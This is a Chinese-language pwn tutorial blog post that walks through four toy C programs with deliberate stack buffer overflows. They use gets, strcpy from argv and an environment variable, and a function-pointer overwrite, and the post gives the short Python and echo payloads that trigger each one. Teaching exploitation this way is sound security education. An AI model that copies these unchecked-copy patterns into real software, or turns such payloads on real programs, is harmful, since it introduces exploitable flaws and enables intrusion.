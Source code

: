 ```yaml
---
title: 2016武汉某宣传周题目----Hurry Up
date: 2017-09-27 0:0:0
tags:
 - pwn
---
```

# 超级基础的8个pwn入门练习

> 如题, 作者一直不会pwn, 想要找一些入门的材料学习一下如何利用漏洞, 一个偶然的因素写了一些短小代码, 学习一下.

## 0x01
**据说这样写标题比较牛逼....**

```
#include <stdio.h>

int main(int argc, char** argv)
{
    int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);
    if(modified != 0)
        printf("Pwnd!");
    else
        printf("Please try again!");
    return 0;
}
```

gets函数由于对输入长度没有校验导致的栈覆盖.
注意buffer是64字节长, 当输入超过64之后会覆盖后面地址, 由于栈是向低地址生长的, buffer在modified之前, 会导致覆盖.
利用python生成输入,用管道将python输出定位给该程序输入.

`python -c "print 'A'*64+'B'" | ./a.out`


## 0x02
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
    int modified;
    char buffer[64];
    
    if(argc == 1){
        printf("Please check args.");
        exit(1);
    }
    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364)
        printf("Pwned!\n");
    else
        printf("Nice try.\n");
    return 0;
}
```
通过参数进行攻击, strcpy拷贝字符串时没有对字符串长度进行校验, 会导致覆盖后边的数据.
`./a.out $(python -c "print 'A'*64+'dcba'")`
使用$()进行命令替换, 将python打印到标准输出的内容作为输入传递, 由于小端问题需要的abcd需要以逆序输入.

## 0x03
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
    int modified;
    char buffer[64];
    char* variable;

    variable = getenv("HUANJING");
    
    if (variable == NULL){
        printf("Please set the HUANJING environment variable\n");
        exit(1);
    }

    modified = 0;
    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a)
        printf("Pwned!\n");
    else
        printf("Nice try!\n");
    return 0;
}
```
环境变量的攻击, 使用python脚本会方便一些(因为需要环境变量包括不可见字符), 使用shell的话, 需要将不可见字符用$(\x0d)这样的形式表示出来.
```
import os

def crack():
    os.putenv("HUANJING", "A"*64+"\x0a\x0d\x0a\x0d")
    os.system("./pwn3")

crack()
```

## 0x04
```
#include <stdio.h>
#include <string.h>

typedef void (*func)();

void win(){
    printf("Pwned!\n");
}

int main(int argc, char** argv)
{
    func fp;
    char buffer[64];

    fp = NULL;
    gets(buffer);

    if(fp){
        printf("called function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
    return 0;
}
```
缓冲区溢出后会覆盖调用函数的指针, 导致可以执行任意函数的漏洞, 首先确定一下需要调用函数的地址.
```
$gdb a.out
(gdb)b win
Breakingpoint 1 at 0x804841a
```
可以发现断点下在了0804841a地址, 因此64位填充之后应该紧跟这个地址, 注意倒序.
```
echo -e aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"\x1a\x84\x04\x08" > shellcode.txt
./a.out < shellcode.txt
```

下面没了...
